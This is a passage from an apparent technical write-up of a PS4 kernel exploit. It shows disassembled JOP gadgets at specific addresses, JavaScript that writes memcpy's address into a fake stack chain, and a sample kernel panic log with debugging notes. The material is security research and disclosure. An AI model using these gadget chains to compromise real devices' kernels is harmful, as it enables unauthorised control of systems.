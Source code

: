 ```
seg000:0000000001284834                 mov     rsi, [rdi+8]
seg000:0000000001284838                 mov     rdi, [rdi+18h]
seg000:000000000128483C                 mov     rax, [rdi]
seg000:000000000128483F                 call    qword ptr [rax+30h]
```

#### Setting Destination
Finally, we need to setup RDI so that it points to all of our fake stack frames that we pushed on the kernel stack. This turns out to be at RBP (base pointer) - 0x28. We can use another JOP gadget at `0x272961`.

```
seg000:0000000000272961                 lea     rdi, [rbp-28h]
seg000:0000000000272965                 call    qword ptr [rax+40h]
```

#### Calling Memcpy
Now that the arguments are setup, we need to call `memcpy()`. Notice from our last JOP gadget, that the next place we jump to is setup based on `[rax + 0x40]`. This is where we want to write the address of `memcpy()` from userland. We'll skip the function prologue and optimizations to avoid side-effects produced from our previous JOP gadgets.

```javascript
p.write8(raxbase.add32(0x40), memcpy.add32(0xC2 - 0x90)); // skip prolog covering side effecting branch and skipping optimizations
var topofchain = stackshift_from_retaddr + 0x28;
p.write8(rdibase.add32(0xB0), topofchain);
```

## Exploit Debugging (Kind Of)
### Summary
It was suggested to me that I should include a section containing some details on complications that occured. We've already detailed one of them, being the SMAP-like implementation, however another was the lack of debugging. At this point in time, we didn't have a kernel debugging framework setup for working with the PS4. We did however have the ability to patch the kernel to enable UART and "verbose panic" information if we have an existing kernel exploit working. Of course though, once the system reboots, we no longer have access to UART nor verbose panic info even if we did.

### Fatal Traps
Panic information that's printed to the klog/UART can be a very helpful tool for debugging exploits (which is probably why Sony has it disabled in the first place). Below is an example of a standard page fault panic from klog:

```
Fatal trap 12: page fault while in kernel mode
cpuid = 0; apic id = 01
fault virtual address   = 0xffffde1704254000
fault code              = supervisor read instruction, protection violation
instruction pointer     = 0x20:0xffffde1704254000
stack pointer           = 0x28:0xffffff807119b220
frame pointer           = 0x28:0xffffff807119b2b0
code segment            = base 0x0, limit 0xfffff, type 0x1b
                        = DPL 0, pres 1, long 1, def32 0, gran 1
processor eflags        = interrupt enabled, resume, IOPL = 0
current process         = 87 (infloopThr)
```
